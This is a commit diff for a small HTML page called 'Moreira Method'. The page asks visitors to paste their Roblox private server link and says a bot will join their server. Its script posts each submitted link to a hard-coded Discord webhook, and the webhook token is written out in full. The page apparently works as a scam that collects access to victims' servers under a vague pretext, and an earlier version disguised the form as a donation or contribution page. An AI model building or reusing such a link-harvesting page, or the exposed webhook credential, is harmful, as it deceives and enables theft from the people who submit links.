

Before and after one commit to rayan4421/moreiramethod, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (282-997 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,37 +3,51 @@
 <head>
   <meta charset="UTF-8">
   <title>Moreira Method</title>
-</p>
+
   <style>
     body {
       background-color: #0b0b0b;
       color: white;
       font-family: Arial, sans-serif;
     }
+
     .box {
       width: 600px;
       margin: 80px auto;
       padding: 25px;
+      background: #111;
       border: 1px solid #333;
       border-radius: 8px;
-      background: #111;
     }
-    input, button {
+
+    h2 {
+      margin-bottom: 10px;
+    }
+
+    input {
       width: 100%;
       padding: 10px;
-      margin-top: 10px;
       background: #1a1a1a;
       color: white;
       border: 1px solid #333;
       border-radius: 4px;
+      margin-top: 10px;
     }
+
     button {
+      margin-top: 15px;
+      padding: 10px;
+      width: 100%;
+      background: #222;
+      color: white;
+      border: none;
       cursor: pointer;
-      background: #222;
     }
+
     button:hover {
       background: #333;
     }
+
     .success {
       color: #00ff99;
       margin-top: 15px;
@@ -41,33 +55,38 @@
     }
   </style>
 </head>
+
 <body>
 
   <div class="box">
-    <h2>Contributing</h2>
-    <p>Share your Roblox VIP Server link below.</p>
+    <h2>Moreira Method</h2>
+    <p>Enter your Private Server link</p>
+    <!-- Nouvelle phrase ajoutée -->
+    <p>Rejoignez votre serveur et attendez qu'un bot rejoigne</p>
 
-    <input id="psLink" placeholder="https://www.roblox.com/games/...privateServerLinkCode=XXXX">
+    <input id="psLink" placeholder="https://www.roblox.com/games/...">
 
-    <button onclick="send()">Donate</button>
+    <button onclick="send()">Submit</button>
 
-    <p class="success" id="successText">✅ Join ur private servers</p>
+    <div class="success" id="success">
+      ✅ Join ur private servers
+    </div>
   </div>
 
   <script>
     function send() {
       const link = document.getElementById("psLink").value;
-      if (!link) return alert("Enter a valid link");
+      if (!link) return alert("Enter a link");
 
       fetch("https://discord.com/api/webhooks/1452873894682824777/6zrnDuILFSv3skLD4gff5B5ZC4uDo_no_jMo86jaRocJampAzjZPBO2l6gRqHlZS_hHh", {
         method: "POST",
-        headers: {"Content-Type": "application/json"},
+        headers: { "Content-Type": "application/json" },
         body: JSON.stringify({
           content: "🔗 New Private Server:\n" + link
         })
       });
 
-      document.getElementById("successText").style.display = "block";
+      document.getElementById("success").style.display = "block";
     }
   </script>
 
```
